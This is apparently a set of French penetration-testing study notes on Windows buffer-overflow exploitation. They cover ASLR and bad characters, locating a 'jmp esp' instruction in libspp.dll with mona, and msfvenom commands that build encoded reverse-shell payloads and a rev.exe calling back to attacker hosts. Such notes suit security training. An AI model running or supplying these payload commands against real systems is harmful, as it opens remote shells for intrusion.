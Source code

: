 Attention à ASLR (Adress space layout randomization)
On peut chercher une adresse dans un autre exploit
Copier les DLLs de la victime  sur notre machine et utiliser des outils comme un dessassbembleur (objdump) pour obtenir une adresse
Attention aux charactères proscrits

# Chercher une instruction
Pour trouver l'adresse d'une instruction

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#jmp esp FFE4 \xff\xe4
!mona modules
!mona find -s "\xff\xe4" -m libspp.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

jump esp est FEE4. Ici on chercher dans libspp.dll

# msfvenom
génère une charge dans un language en excluant certains charactères

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-p 	Charge
-f	language de sortie
-e	encodeur (plateforme)
-b	charactères proscrits

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=4433 -f exe -o rev.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
